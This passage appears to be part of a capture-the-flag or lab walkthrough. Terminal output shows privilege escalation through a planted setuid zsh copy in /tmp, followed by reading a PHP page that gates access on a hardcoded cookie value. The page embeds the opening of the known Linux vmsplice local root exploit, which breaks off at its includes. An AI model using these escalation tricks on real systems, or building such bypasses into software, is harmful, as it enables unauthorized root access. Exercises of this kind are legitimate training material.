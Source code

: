 Run the shell:

<pre>
[bob@barney html]$ ls -l /bin/zsh
-rwxr-xr-x 1 root root 539592 2007-10-11 10:16 /bin/zsh
[bob@barney html]$ ls -l /tmp/zsh
-rwsr-sr-x 1 apache apache 539592 2019-10-03 11:27 /tmp/zsh
[bob@barney html]$ /tmp/zsh
[bob@barney]/var/www/html% id
uid=501(bob) gid=501(bob) euid=48(apache) egid=48(apache) groups=501(bob)
[bob@barney]/var/www/html% 
</pre>

Now that we have privilege escalated to the apache user, we can examine the source of the files in the `/var/www/html` directory:

<pre>
[bob@barney]/var/www/html% cat specialpage.php 
<?php
require("cookie.inc.php");
//fix loopback redirect condition
if ($user != 42)
{
	header("Location: index.php");
	die();
}
?>
<html><head><title>Target Widgets - Special Page</title></head>
<body bgcolor="white">
<h1>Target Widgets - Special Page</h1><hr>
Hey...you're the administrator!  I guess you forgot your root password again,
huh?  Well, that's okay!  Just use the km3 exploit (provided below) to get back in! (c:=
<p><hr>
<textarea rows="15" cols="70">
/*
 * jessica_biel_naked_in_my_bed.c
 *
 * Dovalim z knajpy a cumim ze Wojta zas nema co robit, kura.
 * Gizdi, tutaj mate cosyk na hrani, kym aj totok vykeca.
 * Stejnak je to stare jak cyp a aj jakesyk rozbite.
 *
 * Linux vmsplice Local Root Exploit
 * By qaaz
 *
 * Linux 2.6.17 - 2.6.24.1
 *
 * This is quite old code and I had to rewrite it to even compile.
 * It should work well, but I don't remeber original intent of all
 * the code, so I'm not 100% sure about it. You've been warned ;)
 * 
 * -static -Wno-format  
 */
#define _GNU_SOURCE
#include &lt;stdio.h&gt;
#include &lt;errno.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;string.h&gt;
#include &lt;malloc.h&gt;
#include &lt;limits.h&gt;
#include &lt;signal.h&gt;
#include &lt;unistd.h&gt;
#include &lt;sys/uio.h&gt;
#include &lt;sys/mman.h&gt;
#include &lt;asm/page.h&gt;
#define __KERNEL__